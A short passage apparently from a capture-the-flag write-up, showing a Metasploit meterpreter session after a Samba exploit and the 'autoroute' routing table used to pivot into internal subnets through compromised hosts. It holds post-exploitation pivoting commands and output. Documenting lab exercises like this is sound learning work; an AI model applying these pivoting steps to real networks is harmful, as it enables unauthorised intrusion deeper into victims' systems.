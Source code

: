 
If we hop back on in msf session and check the "Active Routing Table" we can see we have access to all of these subnets so far:
```bash
msf5 exploit(linux/samba/is_known_pipename) > sessions -i 8
[*] Starting interaction with 8...

meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.1.1.0           255.255.255.0      Session 5
   10.24.13.0         255.255.255.0      Session 8
   10.112.3.0         255.255.255.0      Session 6
   10.174.12.0        255.255.255.0      Session 5
   10.218.176.0       255.255.255.0      Session 5
   172.19.0.0         255.255.0.0        Session 8

meterpreter > 
```
The tunneling challenge was very interesting and this was the first time I used metasploit to pivot into different hosts like that.
